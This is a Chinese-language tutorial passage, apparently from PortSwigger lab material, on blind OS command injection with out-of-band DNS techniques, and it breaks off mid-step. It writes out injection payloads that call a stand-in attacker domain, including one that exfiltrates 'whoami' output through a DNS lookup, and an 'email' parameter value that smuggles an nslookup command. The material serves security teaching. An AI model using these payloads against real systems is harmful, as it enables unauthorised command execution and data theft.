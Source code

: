     peter-bFnrHh
    ```

    





## 带外通信技术(OAST)

您可以使用注入的命令，通过 OAST 技术触发与您控制的系统的带外网络交互。例如：

```
& nslookup kgji2ohoyw.web-attacker.com &
```

此负载使用 `nslookup` 命令导致对指定域的 DNS 查找。攻击者可以监控查找是否发生，以确认命令是否成功注入。



**实验**

应用程序执行包含用户提供的详细信息的shell命令。该命令是异步执行的，对应用程序的响应没有影响。无法将输出重定向到您可以访问的位置。但是，您可以触发与外部域的带外交互。

为了解决这个实验，利用盲OS命令注入漏洞来向Burp Collaborator发出DNS查询。



1. 使用Burp Suite拦截并修改提交反馈的请求。

2. 修改 `email` 参数，将其更改为：

    ```
    email=x||nslookup+x.BURP-COLLABORATOR-SUBDOMAIN||
    ```

3. 右键单击并选择“插入Collaborator有效载荷”，在修改后的`email`参数中插入一个Burp Collaborator子域。



**带外通道**提供了一种简单的方法来窃取注入命令的输出：

```
& nslookup `whoami`.kgji2ohoyw.web-attacker.com &
```

这会导致对攻击者的域进行 DNS 查找，其中包含 `whoami` 命令的结果：

```
wwwuser.kgji2ohoyw.web-attacker.com
```



**实验**

本实验包含一个在反馈功能中的盲操作系统命令注入漏洞。

应用程序会执行一条包含用户所提供详细信息的shell命令。该命令是异步执行的，对应用程序的响应没有任何影响。无法将输出重定向到可访问的位置。然而，可以触发与外部域的带外交互。

为了解决这个实验，执行`whoami`命令并通过DNS查询将输出泄露给Burp Collaborator。需要输入当前用户的名称来完成实验。



1. 使用Burp Suite Professional拦截并修改提交反馈的请求。

2. 转到[Collaborator](https://portswigger.net/burp/documentation/desktop/tools/collaborator)选项卡。
